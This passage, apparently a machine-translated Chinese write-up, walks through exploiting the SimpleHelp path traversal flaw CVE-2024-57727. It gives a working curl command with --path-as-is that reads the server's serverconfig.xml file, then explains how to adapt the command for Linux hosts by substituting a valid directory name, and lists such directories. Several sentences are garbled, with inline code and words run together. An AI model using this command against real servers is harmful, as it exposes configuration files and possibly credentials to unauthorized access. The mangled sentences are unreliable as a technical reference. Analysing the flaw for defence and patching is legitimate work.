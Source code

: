 # [...]  
  
当用户尝试访问时，就会发生路径遍历/toolbox-resource/。我们将使用上述 PoC 代码来编写curl命令。  
  
curl --path-as-is http://IP/toolbox-resource/../resource1/../../configuration/serverconfig.xml  
  
注意到我们在命令--path-as-is中添加了curl。此选项可防止在规范化路径的过程中curl删除../。成功执行上述命令将检索serverconfig.xml文件。  
  
![1744166418_67f5de12c5a74efaaabe3.png!small?1744166421594](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMC2fNFmy1GrduNwf6yJMteBrdNnMibfkEVh6ic917rtYU0q7kb3eFHlyzmBWjDaac44FInNehkmGvA/640?wx_fmt=jpeg&from=appmsg "")  
## MS Windows 以外的漏洞利用  
  
Linux 上 SimpleHelp 的 PoC  
  
POC在上面的Windows 上完美运行，但在 Linux 上对 SimpleHelp 不起作用。MS Windows 更“灵活”，即使目录名称错误，也可以让漏洞利用成功。对 Linux 系统上托管的 SimpleHelp 的相同尝试从服务器获得空回复，如下面的终端所示。  
  
![1744166453_67f5de358b489d36f794c.png!small?1744166455201](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMC2fNFmy1GrduNwf6yJMtelsRLsjC8XcxQLjFKJgdCIE4SHJ9RIFvfGQMRFfDGt1lInFAXk1S95w/640?wx_fmt=jpeg&from=appmsg "")  
  
（https://attackerkb.com/topics/G4CTOrbDx0/cve-2024-57727）上由“jheysel-r7”撰写的分析提供了有关如何使其针对 Linux 主机起作用的详细信息。具体来说，我们需要将获取的 URL 中的 替换resource1为有效的目录名，例如。通过在替换目录名后重复相同的命令，我们可以成功转储文件。下面的终端中显示了一个示例。secmsghttp://IP/toolbox-resource/../resource1/../../configuration/serverconfig.xmlcurlresource1serverconfig.xml  
  
![1744166480_67f5de50147c96adb89be.png!small?1744166482015](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMC2fNFmy1GrduNwf6yJMteOicer5x01JtVw1kNR40gmEfnFbrVfQdkgMGpzFSZWOEWpEtXQ1ElARQ/640?wx_fmt=jpeg&from=appmsg "")  
  
其他有效的目录名称也可用。我们在下面的终端中列出了目录。  
  
root@:~# tree -L 1 -d  
  
.  
  
├── alertsdb  
  
├── backups  
  
├── branding  
  
├── history  
  
├── html  
  
├── notifications  
  
├── recordings  
  
├── remotework  
  
├── secmsg  
  
├── simulations  
  
├── sslconfig  
  
├── techprefs  
  
├── templates  
  
├── toolbox  
  